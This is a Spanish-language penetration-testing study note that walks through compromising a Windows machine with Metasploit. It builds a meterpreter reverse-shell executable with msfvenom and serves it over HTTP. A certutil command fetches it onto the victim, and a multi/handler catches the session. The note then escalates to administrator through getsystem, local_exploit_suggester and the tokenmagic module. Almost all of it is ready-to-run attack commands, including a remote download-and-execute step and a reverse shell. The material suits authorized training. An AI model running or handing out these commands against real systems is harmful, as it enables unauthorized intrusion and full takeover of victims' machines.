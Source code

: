 
#### LINUX & WINDOWS

El primer paso será obtener una sesión de merterpreter con la maquina Windows.
Creamos el payload.
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.28 LPORT=444 -f exe -o virus.exe`
En caso de que sea de 64 bits.
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.28 LPORT=444 -f exe -o virus.exe`

Levantamos un servidor en Python.
` python3 -m http.server 80`

En la maquina victima navegamos a la IP y descargamos el archivo.
`certutil -split -urlcache -f http://<IP-atacnte>/<nombre-archivo> <nombre-resultante>`

En la maquina atacante debemos de abrir [[METASPLOIT]]
usaremos MultiHandler para obtener la sesión de meterpreter.
`use exploit/multi/handler`
- Vemos las opciones de configuración.
	`show options`
- Ponemos la IP de la maquina atacante
	`set LHOST`
- Ponemos el puerto de escucha el mismo que en el payload de msfvenom
	`set LPORT`
- Y seleccionamos el payload que es el mismo que hemos usado en [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
	`set PAYLOAD`
Ejecutamos con `run`
Tenemos que ejecutar también el archivo en la maquina Windows.
Habremos obtenido una sesión de meterpreter.
Ponemos el meterpreter en segundo plano con el comando `background`

Podemos usar el comando `getsystem` para la escalada de privilegios o 

Automatizar la escalada de privilegios usaremos el siguiente exploit.
`search local_exploit_suggester`

Tenemos que configurar el SESSION, para saber el id de la sesión ejecutaremos el comando `sessions -l`

El id de sesión que tengamos lo cargamos en el exploit con `set SESSION`, y lo ejecutamos con el comando `run` 

Los exploits que son funcionales son los que salen en color verde, tendremos que probar con ellos cual es el que nos funciona en este caso usamos el siguiente.
`xploit/windows/local/tokenmagic`

Copiamos el nombre del exploit y ejecutamos.
`use exploit/windows/local/tokenmagic`
 Debemos ejecutar el comando `show options` e ir rellenando la información que nos pida
 `set SESSION`
 `set LHOST`
 `set LPORT 555`

Ejecutamos el comando `run` y nos hace automáticamente la escalada de privilegios, otorgándonos una sesión de meterpreter con el usuario administrador.


#### POST EXPLOTACION

Si nos preguntan cuantos usuarios hay dentro de la maquina en Windows podemos usar el comando.
`net users`

